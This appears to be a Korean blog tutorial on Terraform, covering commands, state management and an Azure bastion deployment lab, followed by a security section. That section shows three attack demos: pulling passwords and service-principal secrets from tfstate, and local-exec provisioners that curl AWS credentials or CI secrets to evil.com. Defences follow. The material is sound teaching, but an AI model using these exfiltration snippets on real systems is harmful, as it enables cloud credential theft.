

---
layout: post
title: "Terraform"
date: 2025-11-19 17:00:00 +0900
categories: [iac]
---

## 1. 개요

**Terraform**은 HashiCorp가 개발한 오픈소스 **IaC (Infrastructure as Code)** 도구이다.
HCL (HashiCorp Configuration Language)이라는 직관적인 언어를 사용하여 AWS, Azure, GCP 등 다양한 클라우드 리소스를 코드로 정의하고 생성, 변경, 삭제를 자동화한다.

### IaC (Infrastructure as Code)란?
*   인프라를 수동(GUI 클릭)이 아닌 **코드**로 정의하여 관리한다.
*   Git과 같은 버전 관리 시스템을 통해 인프라 변경 이력을 추적하고 협업할 수 있다.
*   **멱등성(Idempotency)**을 보장하여 코드를 여러 번 실행해도 항상 동일한 상태를 유지한다.

### Terraform vs Ansible

| 구분 | Terraform | Ansible |
|------|-----------|---------|
| **주 목적** | **인프라 프로비저닝** (VM, VPC, LB 생성) | **구성 관리** (패키지 설치, 애플리케이션 설정) |
| **방식** | **선언적 (Declarative)**: 최종 상태(Desired State) 정의 | **절차적/선언적 혼합**: 실행 순서 중요 |
| **상태 관리** | **State 파일 필수 (`.tfstate`)** | Stateless (현재 상태를 확인하며 실행) |
| **강점** | 클라우드 리소스 수명 주기 관리 | OS 내부 설정, 미들웨어 배포 |

### 동작 흐름
Terraform은 3단계 워크플로우를 따른다.


---

## 2. 설치 및 디렉터리 구성

### 설치 (Windows)
1.  Terraform 공식 사이트에서 바이너리(zip) 다운로드
2.  `C:\terraform` 등에 압축 해제
3.  시스템 환경 변수 `Path`에 해당 경로 추가
4.  설치 확인: `terraform -version`

### 디렉터리 구조
일반적으로 다음과 같이 파일을 분리하여 관리한다.
*   `main.tf`: 리소스 정의 (실제 인프라 코드)
*   `variables.tf`: 변수 정의 (입력값)
*   `outputs.tf`: 출력 정의 (생성된 리소스의 IP 등)
*   `provider.tf`: 클라우드 공급자 설정

---

## 3. 기본 사용법 및 명령어

### 핵심 패키지
```bash
# 1. 초기화 (필수)
# Provider 플러그인을 다운로드하고 .terraform 폴더를 생성한다.
terraform init

# 2. 계획 확인 (Dry Run)
# 실제로 변경될 리소스를 미리 확인한다. (+ 생성, - 삭제, ~ 변경)
terraform plan

# 3. 적용 (Apply)
# 확인된 계획을 실행하여 실제 리소스를 생성한다.
terraform apply --auto-approve

# 4. 삭제 (Destroy)
# 관리 중인 모든 리소스를 삭제한다. (주의!)
terraform destroy
```

---

## 4. 상태 관리 및 디버깅

Terraform에서 **State 파일(`terraform.tfstate`)**은 실제 클라우드 리소스와 코드 간의 매핑 정보를 담고 있는 매우 중요한 파일이다.

### 주요 관리 명령어
```bash
# 현재 관리 중인 리소스 목록 확인
terraform state list

# 특정 리소스의 상세 속성 확인
terraform state show azurerm_virtual_network.vnet

# 코드 스타일 자동 포맷팅 (협업 시 필수)
terraform fmt

# 문법 유효성 검사
terraform validate

# 기존 수동 생성 리소스를 Terraform 관리하으로 가져오기
terraform import <리소스타입>.<이름> <리소스ID>

# 특정 리소스를 손상된 것으로 표시하여 다음 apply 시 강제 재생성 유도
terraform taint <리소스>
```

---

## 5. 실습: Azure 리소스 배포

실제 기업 환경과 유사한 보안 아키텍처를 Azure에 배포하는 실습이다.

### 아키텍처 구성 (Bastion + Private Web)
*   **VNet**: `10.0.0.0/16`
*   **Subnets**:
    1.  **Public**: `10.0.0.0/24` (Bastion Host)
    2.  **Private Web**: `10.0.1.0/24` (Web Server 1)
    3.  **DB**: `10.0.2.0/24` (Database)

### 배포 리소스 체크리스트
1.  **Resource Group**: 리소스 컨테이너
2.  **Virtual Network**: 가상 네트워크망
3.  **Subnet (x3)**: 용도별 망 분리
4.  **NSG**: 보안 규칙 (SSH, HTTP 허용)
5.  **Public IP**: 외부 접속용 IP (Bastion용)
6.  **NIC**: VM의 랜카드
7.  **Availability Set**: 가용성 집합 (이중화)
8.  **Virtual Machine**: 서버 인스턴스 (Linux)
9.  **Load Balancer**: 트래픽 부하 분산
10. **Storage Account**: VM 진단 로그 저장소
11. **Key Vault**: 비밀번호 및 인증서 관리
12. **Application Gateway**: L7 로드밸런서 (WAF)

### main.tf 코드 작성
```hcl
# 리소스 그룹
resource "azurerm_resource_group" "rg" {
  name     = "hamap-resources"
  location = "Korea Central"
}

# 가상 네트워크
resource "azurerm_virtual_network" "vnet" {
  name                = "hamap-vnet"
  address_space       = ["10.0.0.0/16"]
  location            = azurerm_resource_group.rg.location
  resource_group_name = azurerm_resource_group.rg.name
}

# 공인 IP (Bastion용)
resource "azurerm_public_ip" "pip" {
  name                = "bastion-ip"
  location            = azurerm_resource_group.rg.location
  resource_group_name = azurerm_resource_group.rg.name
  allocation_method   = "Static"
}
```

### SSH 접속 테스트
Bastion Host를 경유하여 Private Web Server에 접속한다.
```bash
# 1. Bastion Host 접속
ssh -i id_rsa azureuser@<Bastion-Public-IP>

# 2. Bastion 내부에서 Private VM 접속
ssh azureuser@10.0.1.4
```
> **Tip**: Bastion 호스트에서 내부 서버로 접속하려면 개인키(`id_rsa`)를 Bastion 서버에 업로드하거나 SSH Agent Forwarding을 사용해야 한다.

---

## 6. 보안 고려사항

Terraform의 `terraform.tfstate` 파일에는 **민감한 정보가 평문으로 저장**된다. 데이터베이스 비밀번호, 서비스 주체(App ID/Secret), SSH 키 등이 노출될 위험이 있다.

### 6.1. 공격 시연 (Lab 환경)

#### 공격 1: State 파일에서 비밀번호 탈취

`.tfstate` 파일이 Git 저장소에 커밋되거나 공유 스토리지에 무방비로 저장된 경우, 공격자가 민감 정보를 추출하는 시나리오이다.

**[취약한 환경]**
*   `.tfstate` 파일이 Git에 커밋됨
*   Remote Backend 미사용 (로컬 저장)

**[공격 과정]**
```bash
# 1. Git 저장소에서 tfstate 파일 발견
find . -name "*.tfstate"

# 2. State 파일에서 비밀번호 검색
cat terraform.tfstate | jq '.resources[] | select(.type=="azurerm_sql_server") | .instances[].attributes.administrator_login_password'
# 출력: "P@ssw0rd123!"

# 3. 서비스 주체(Service Principal) 정보 탈취
grep -i "client_secret" terraform.tfstate
# 출력: "client_secret": "xxxxx-secret-xxxxx"

# 4. 탈취한 자격 증명으로 Azure 로그인
az login --service-principal -u <client_id> -p <client_secret> --tenant <tenant_id>
# 클라우드 인프라 완전 장악
```

**[공격 결과]**: State 파일 노출 → 클라우드 자격 증명 탈취 → 인프라 장악 🔓

---

#### 공격 2: 악성 Provider/Module 공급망 공격

공격자가 조작된 Terraform Provider나 Module을 공개 레지스트리에 업로드하여, 피해자가 이를 사용하면 백도어가 설치되는 시나리오이다.

**[취약한 환경]**
*   비공식 Provider/Module 무분별하게 사용
*   Provider 버전 Pin 없이 `latest` 사용

**[공격 과정]**
```hcl
# 피해자의 main.tf (악성 모듈 사용)
module "eks" {
  source  = "evil-hacker/eks-backdoor/aws"  # 악성 모듈
  version = "~> 1.0"  # 최신 버전 자동 설치
}
```

```bash
# 악성 모듈 내부에 숨겨진 코드
# 1. terraform apply 시 공격자 서버로 자격 증명 전송
resource "null_resource" "exfil" {
  provisioner "local-exec" {
    command = "curl -X POST https://evil.com/collect -d @~/.aws/credentials"
  }
}
```

**[공격 결과]**: 악성 Module 사용 → AWS 자격 증명 탈취 🔓

---

#### 공격 3: CI/CD 파이프라인의 Terraform 권한 악용

GitHub Actions 등에서 Terraform을 실행하는 경우, 워크플로우 설정이 취약하면 공격자가 PR을 통해 악성 코드를 실행할 수 있다.

**[취약한 환경]**
*   `pull_request_target` 이벤트에서 Terraform 실행
*   PR 머지 전 `terraform apply` 실행

**[공격 과정]**
```yaml
# 취약한 GitHub Actions 워크플로우
on:
  pull_request_target:  # 외부 PR에서도 Secrets 접근 가능
    branches: [main]

jobs:
  deploy:
    runs-on: ubuntu-latest
    steps:
      - run: terraform apply -auto-approve
        env:
          ARM_CLIENT_SECRET: ${{ secrets.ARM_CLIENT_SECRET }}  # 악용 가능
```

```hcl
# 공격자가 PR로 제출한 악성 코드
resource "null_resource" "backdoor" {
  provisioner "local-exec" {
    command = "echo $ARM_CLIENT_SECRET | curl -X POST https://evil.com/steal -d @-"
  }
}
```

**[공격 결과]**: 취약한 CI/CD → Secrets 탈취 → 인프라 장악 🔓

---

### 6.2. 방어 대책

| 공격 | 방어 |
|:---|:---|
| State 파일 탈취 | 방어 1, 2, 3 |
| 공급망 공격 | 방어 4, 5 |
| CI/CD 악용 | 방어 6 |

---

#### 방어 1: Remote Backend 사용 (필수)

State 파일을 로컬이 아닌 클라우드 저장소에 저장하여 암호화하고 협업 시 동기화한다.

```hcl
# backend.tf (Azure Storage 예시)
terraform {
  backend "azurerm" {
    resource_group_name  = "tfstate-rg"
    storage_account_name = "tfstatestorage"
    container_name       = "tfstate"
    key                  = "prod.terraform.tfstate"
  }
}
```

---

#### 방어 2: .gitignore 설정

State 파일이 절대 Git에 커밋되지 않도록 설정한다.

```gitignore
# .gitignore
*.tfstate
*.tfstate.*
*.tfvars
.terraform/
```

---

#### 방어 3: State Locking 및 암호화

동시 실행 방지와 저장 시 암호화를 적용한다.

```hcl
# Azure Storage에서 Lock 자동 지원
# AWS S3 + DynamoDB 사용 시
terraform {
  backend "s3" {
    bucket         = "terraform-state-bucket"
    key            = "prod/terraform.tfstate"
    region         = "ap-northeast-2"
    encrypt        = true                    # 암호화
    dynamodb_table = "terraform-state-lock"  # Lock 테이블
  }
}
```

---

#### 방어 4: Provider/Module 버전 Pin

공급망 공격 방지를 위해 정확한 버전과 해시를 고정한다.

```hcl
terraform {
  required_providers {
    azurerm = {
      source  = "hashicorp/azurerm"
      version = "= 3.75.0"  # 정확한 버전 고정
    }
  }
}

# .terraform.lock.hcl 파일을 Git에 커밋하여 해시 검증
```

---

#### 방어 5: 신뢰할 수 있는 소스만 사용

공식 레지스트리(registry.terraform.io)의 Verified 마크가 있는 Provider/Module만 사용한다.

```hcl
# ✅ 안전: HashiCorp 공식 Provider
provider "azurerm" {
  source = "hashicorp/azurerm"
}

# ❌ 위험: 출처 불명의 Provider
provider "azurerm" {
  source = "unknown-user/azurerm-fork"
}
```

---

#### 방어 6: CI/CD 보안 강화

PR에서는 `plan`만 실행하고, `apply`는 머지 후 protected branch에서만 실행한다.

```yaml
# 안전한 GitHub Actions 워크플로우
on:
  pull_request:
    branches: [main]

jobs:
  plan:
    runs-on: ubuntu-latest
    steps:
      - name: Terraform Plan (PR에서는 apply 금지)
        run: terraform plan -out=plan.tfplan
        # apply는 main 브랜치 push 이벤트에서만 실행

on:
  push:
    branches: [main]

jobs:
  apply:
    runs-on: ubuntu-latest
    steps:
      - run: terraform apply -auto-approve
```

> **Tip**: **OIDC(OpenID Connect)**를 사용하면 CI/CD에서 장기 Secrets 대신 임시 토큰으로 인증하여 더 안전하다.

<hr class="short-rule">
